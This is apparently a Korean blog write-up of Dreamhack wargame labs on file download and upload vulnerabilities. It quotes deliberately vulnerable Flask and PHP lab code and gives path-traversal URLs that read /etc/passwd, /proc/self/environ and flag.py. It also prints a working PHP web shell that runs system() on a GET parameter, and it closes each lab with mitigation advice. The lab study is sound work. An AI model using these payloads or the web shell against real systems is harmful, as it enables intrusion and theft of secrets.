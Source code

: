 ```yaml
---
layout : single
title : "[Dreamhack] STAGE8. File Vulnerability (2)"
categories: web-hacking
tag: [dreamhack, webhacking, wargame]
sidebar:
    nav: "docs"
---
```


# Web Hacking - ServerSide : File Vulnerability (2)

-  [x] File Download Vulnerability 실습
-  [x] 함께 실습 : image-storage
-  [x] 혼자 실습 : file-download-1

## File Download Vulnerability
파일 다운로드 취약점은 웹 서비스를 통해 서버의 파일 시스템에 존재하는 파일을 내려받는 과정에서 발생하는 보안 취약점이며, 이용자가 다운로드할 파일의 이름을 임의로 정할 수 있을 때 발생한다. 웹 서비스는 이용자가 파일을 다운받거나, 이미지를 불러올 때 특정 디렉토리에 있는 파일만 접근하도록 해야하는데, Path Traversal을 이용한 파일 다운로드 취약점은 파일 이름을 직접 입력받아 임의 디렉토리에 있는 파일을 다운로드 받을 수 있는 취약점을 뜻한다. <br>

|파일 다운로드 취약점이 자주 발생하는 URL 패턴|
|:------|
|https://vulnerable-web.dreamhack.io/download/?filename=notes.txt|
|https://vulnerable-web.dreamhack.io/download/?filename=../../../../../../etc/passwd|
|https://vulnerable-web.dreamhack.io/images.php?fn=6ed0dd02806fa89e233b84f4.png|


### File Download Vulnerability 실습

아래는 실습 서버 코드이다. 환경 변수로부터 가지고 오는 Secret 값을 파일 다운로드 취약점을 이용해 획득해보자

```python
# ...
Secret = os.environ("Secret")
# ...
@app.route("/download")
def download():
    filename = request.args.get("filename")
    content = open("./uploads/" + filename, "rb").read()
    return content
# ...
```

프로세스의 환경변수는 /proc/self/environ에서 확인할 수 있으며, 이용자가 프로세스 호출 전 환경변수를 bash의 명령어로 설정했다면, .bash_history에서도 이를 알 수 있다. 아래는 proc/self/environ에서 Secret 값을 읽은 사진이다

<img src = "/images/webbackground/14.png"><br>


### File Vulnerability 방지하기
업로드 취약점을 막으려면 개발자는 업로드 디렉토리를 웹 서버에서 직접 접근할 수 없도록 하거나, 업로드 디렉토리에서 CGI가 실행되지 않도록 해야하며, 업로드 된 파일 이름을 그대로 사용하지 않고 basepath와 같은 함수를 통해 파일 이름을 검증한 후 사용해야 한다. 또한, 허용할 확장자를 명시하여 그 외 확장자는 업로드될 수 없도록 해야한다.
<br><Br>
다운로드 취약점을 막으려면 요청된 파일 이름을 basepath와 같은 함수를 통해 검증하거나, 파일 이름과 1:1 맵핑되는 키를 만들어 이용자로부터 파일 이름이 아닌 키를 요청하도록 해야한다

## 함께 실습 : image-storage

파일 업로드 취약점을 이용해 flag.txt에 있는 Flag 획득하기

### 웹 서비스 분석
##### 인덱스 페이지

list.php와 upload.php로 이동하는 메뉴 출력

```php
<li><a href="/">Home</a></li>
<li><a href="/list.php">List</a></li>
<li><a href="/upload.php">Upload</a></li>
```

##### 파일 목록 리스팅

list.php는 $directory의 파일 중 ., .., index.html을 제외하고 나열한다

```php
<?php
    $directory = './uploads/';
    $scanned_directory = array_diff(scandir($directory), array('..', '.', 'index.html'));
    foreach ($scanned_directory as $key => $value) {
        echo "<li><a href='{$directory}{$value}'>".$value."</a></li><br/>";
    }
?> 
```

##### 파일 업로드

upload.php는 이용자가 업로드한 파일을 uploads 폴더에 복사하며 이용자는 http://host1.dreamhack.games:[PORT]/uploads/[FILENAME] 를 통해 접근할 수 있다. 같은 이름의 파일이 존재한다면 already exists라는 메세지를 반환한다. 업로드할 파일에 대한 어떠한 검사도 진행하지 않으므로, 웹 셸 업로드 공격에 취약하다. 

```php
<?php
  if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    if (isset($_FILES)) {
      $directory = './uploads/';
      $file = $_FILES["file"];
      $error = $file["error"];
      $name = $file["name"];
      $tmp_name = $file["tmp_name"];
     
      if ( $error > 0 ) {
        echo "Error: " . $error . "<br>";
      }else {
        if (file_exists($directory . $name)) {
          echo $name . " already exists. ";
        }else {
          if(move_uploaded_file($tmp_name, $directory . $name)){
            echo "Stored in: " . $directory . $name;
          }
        }
      }
    }else {
        echo "Error !";
    }
    die();
  }
?>
```

### 익스플로잇

아래와 같은 php 웹셸 작성 후 업로드

```php
<html><body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form><pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?></pre></body></html>
```

업로드가 끝나면, 저장된 위치를 다음과 같이 보여준다

<img src = "/images/wargame/12.png"><br>

위 경로로 이동하여 업로드 된 파일을 연다

<img src = "/images/wargame/13.png"><br>

시스템 명령어 cat /flag.txt 를 통해 flag.txt에 저장된 글을 읽어온다

<img src = "/images/wargame/14.png"><br>

##### 위와 같은 공격으로부터 서비스를 보호하려면 ?

파일 업로드와 관련된 코드에 여러 검사 로직을 추가해야한다. 이 중 대표적인 방법은 파일의 확장자를 제한하는 것이다. 웹 리소스는 크게 정적 리소스와 동적 리소스로 분류할 수 있으며, 정적 리소스는 이미지, 비디오와 같이 서버에서 실행되지 않는 리소스, 동적 리소스는 php, jsp와 같이 서버에서 실행되는 것들을 가리킨다. 동적 리소스의 확장자를 제한하면 파일 업로드 취약점을 통한 RCE(Remote Code Execution : 원격 코드 실행) 공격으로부터 서버를 보호할 수 있다. <br>

또 다른 방법은 AWS, Azure, GCP 등의 정적 스토리지를 이용하는 것이다. 이는 서버의 파일 시스템을 이용하지 않기 때문에 파일 업로드 취약점이 웹 서버 공격으로 이어지는 것을 방지할 수 있다.

## 혼자 실습 : file-download-1

파일 다운로드 취약점이 존재하는 웹 서비스로, flag.py를 다운받으면 플래그를 획득할 수 있다.

```python
@APP.route('/read')
def read_memo():
    error = False
    data = b''

    filename = request.args.get('name', '')

    try:
        with open(f'{UPLOAD_DIR}/{filename}', 'rb') as f:
            data = f.read()
    except (IsADirectoryError, FileNotFoundError):
        error = True


    return render_template('read.html',
                           filename=filename,
                           content=data.decode('utf-8'),
                           error=error)
```
<br>
위와 같은 read 페이지의 코드를 살펴보면, name 파라미터 값으로 파일 이름을 확인하는 것을 알 수 있다. 이를 확실히 확인하기 위해, 임의의 글을 업로드 후 접근해보았다. 아래와 같이 temp라는 이름의 파일에 접근할 때에는 **호스트:포트/read?name=temp** 의 주소를 가지는 것을 볼 수 있다.

<img src = "/images/wargame/16.png"><br>

이를 바탕으로 name 파라미터의 값을 ../flag.py로 입력하여 주소를 이동하면 다음과 같이 flag에 대한 정보를 얻을 수 있다

<img src = "/images/wargame/15.png"><br>